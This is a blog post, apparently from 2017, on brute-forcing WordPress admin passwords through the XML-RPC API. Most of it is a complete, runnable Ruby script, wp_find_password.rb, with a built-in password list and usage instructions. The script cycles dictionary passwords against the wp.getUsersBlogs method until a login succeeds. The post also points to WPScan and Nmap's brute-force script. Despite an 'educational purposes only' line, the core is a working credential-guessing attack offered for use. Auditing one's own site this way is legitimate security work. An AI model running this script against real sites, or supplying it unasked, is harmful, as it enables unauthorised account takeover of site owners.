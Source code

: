 ```yaml
---
layout: post
title: "Wordpress brute force password attack using XML-RPC API"
date: 2017-05-14 17:12
comments: true
categories: [wordpress hacking, web security]
description: wordpress attack, wordpres password brute force, wordpress xmlrpc api, wordpress hacking
keywords: wordpress hacking, wordpress brute force, attacking wordpress, wordpress xmlrpc api, web hacking, wordpress information gathering, wordpress security, wordpress auditing
sharing: true
---
```

<img src="{{ root_url }}/images/wordpress-hacking.png"/> 

#### All code and information for educational purposes only

Starting a series of posts about web security, which also a passion of mine besides development.  
The first published post on this topic about getting admin password for wordpress using [XML-RPC API](https://codex.wordpress.org/XML-RPC_WordPress_API/Users) and brute force attack. Second choice may be a direct brute force attack via post form on 'wp-login.php' which may be more complex during
'Account Lockout Policy' and other things, which I will cover in other post.

<!-- more -->

#### What is XML-RPC?
The XML-RPC is an API that enables developers create WordPress ‘apps’ (like clients, plugins and themes), that allow you to make remote HTTP requests to your WordPress site...[(link to full article)](https://blogvault.net/how-xml-rpc-affects-wordpress-security/)  
The simplest way to check if XML-RPC API enabled(default) in your wordpress is by open your browser and entering something like http://127.0.0.1:8080/xmlrpc.php, if response you see is 'XML-RPC server accepts POST requests only.', XML-RPC API enabled. 

#### Other great tools for wordpress password brute force ####
[WPScan](https://wpscan.org/) - great tool for wordpress information gathering and password brute force  
[Nmap with http-wordpress-brute script](https://nmap.org/nsedoc/scripts/http-wordpress-brute.html) - performs brute force password auditing against Wordpress CMS/blog installations.

#### Let's do it ####
Let's start to build simple script which will find admin password for wordpress using dictionary, I am using simple [sucuri dictionary](https://github.com/danielmiessler/SecLists/blob/master/Passwords/Sucuri_Top_Wordpress_Passwords.txt) as default for out brute force attack.  
We will use ['wp.getUsersBlogs'](https://codex.wordpress.org/XML-RPC_wp) method for our purposes, to retrieve the blogs of the users. This method receives username and password and returns array of values. In case of success we getting array with user's info, otherwise xmlrpc call throws exception, see the code below to understand better.


Our script will use [xml-rpc client for ruby](https://ruby-doc.org/stdlib-2.3.1/libdoc/xmlrpc/rdoc/XMLRPC/Client.html)


#### wp_find_password.rb script
``` ruby 
#!/usr/bin/env ruby
# encoding: UTF-8

require 'optparse'
require 'xmlrpc/client'
require 'uri'


def wp_find_password(options)
  # https://github.com/danielmiessler/SecLists/blob/master/Passwords/Sucuri_Top_Wordpress_Passwords.txt
  passwords = %w(admin 123456 password 12345678 typhoon 666666 111111 1234567 qwerty
                 siteadmin qwerty siteadmin administrator root 123123 123321
                 1234567890 letmein123 test123 demo123 pass123 123qwe qwe123 654321 loveyou adminadmin123)

  uri = URI(options[:url])
  server = XMLRPC::Client.new(uri.host, uri.path, uri.port)
  server.http_header_extra = {'accept-encoding' => 'identity'}
  
  if options[:wordlist] != 'default'
    passwords = File.readlines(options[:wordlist])
    passwords.collect! {|s| s.chomp}
  end
  
  passwords.each do |password|
    begin
      response = server.call("wp.getUsersBlogs", options[:username], password)
      if response
        puts "--- Success: PASSWORD: #{password} for username: #{options[:username]} ---\n"
        break;
      end
    rescue XMLRPC::FaultException => e
      puts "Wrong password: #{password} for username: #{options[:username]}, response code #{e.faultCode}\n"
    end
  end
end

options = {:url => 'http://127.0.0.1:8080/wordpress/xmlrpc.php', :username => 'admin', :wordlist => 'default'}

OptionParser.new do |opts|
  opts.banner = "Usage: wp_find_password.rb [options]"
  opts.on('--username username', 'Username, default: admin') do |username|
    options[:username] = username
  end

  opts.on('--url url', 'Url, default: http://127.0.0.1/wordpress/xmlrpc.php') do |url|
    options[:url] = url
  end

  opts.on('--wordlist wordlist', 'Word List, default: https://github.com/danielmiessler/SecLists/blob/master/Passwords/Sucuri_Top_Wordpress_Passwords.txt') do |wordlist|
    options[:wordlist] = wordlist
  end

  opts.on('-h', '--help', 'Displays Help') do
    puts opts
    exit
  end
end.parse!

wp_find_password(options)
``` 

You may download this script [here](https://github.com/warolv/wordpress-scripts)

Usage example: wp_find_password.rb --url 127.0.0.1:8080/wordpress/xmlrpc.php  --wordlist /Users/your-user/Downloads/wordlist.txt --username admin

Options:
Usage: wp_find_password.rb [options]
        --username username          Username, default: admin
        --url url                    Url, default: http://127.0.0.1/wordpress/xmlrpc.php
        --wordlist wordlist          Dictionary
    -h, --help                       Displays Help